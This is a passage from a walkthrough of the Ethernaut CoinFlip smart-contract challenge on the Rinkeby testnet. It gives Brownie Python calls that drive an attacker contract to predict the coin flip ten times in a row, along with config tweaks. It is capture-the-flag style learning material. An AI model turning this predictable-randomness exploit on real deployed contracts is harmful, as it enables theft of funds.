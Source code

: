 2. Set the instance of the contract with which to interface. My contract instance of CoinFlip, in address `0x7BDa91C53648D2a17352e4055fe6834FAABbFc95` on the Rinkeby test network.

```python
coinflipattack.setInstance('0x7BDa91C53648D2a17352e4055fe6834FAABbFc95', _from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0xff97c5818da48c97f36a10a7a4fe54219744bcd6c3b2d56dcb232e6b58b95249

3. Run a loop of 10 iterations calling the `callFlip()` function, which will _always_ be right in its prediction.

```python
for _ in range(10):
    coinflipattack.callFlip(_from | {'allow_revert':True})
```

First tx: Block explorer: https://rinkeby.etherscan.io/tx/0xdc681c4c668321064d661fdb4a256bcff495460a897a1367f6d6180258456ab7

Last tx: Block explorer: https://rinkeby.etherscan.io/tx/

4. Check that we have actually won 10 times in a row by checking the `consecutiveWins` variable in the CoinFlip contract.

```python
wins_assertion = coinflip.consecutiveWins() == 10
print(wins_assertion)
```

### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0x137421ce33d24463170860b734fc5fe256c35479e0d53075e491c9112ad7dd34

### Minor tweaks

In order for the `callFlip()` transactions to go through, I had to increase the gas limit for live networks on my brownie config file:

```yaml
networks:
  live:
    gas_limit: "1000000"
```

And also use the parameter `{'allow_revert':True}` when calling `callFlip()`, as that scenario is a possibility in the definition of `flip()` on CoinFlip if the previous block hash matches the next block hash, I guess in order to avoid making multiple guess attempts in the same block.

```python
coinflipattack.callFlip(_from | {'allow_revert':True})
```
***

## Telephone
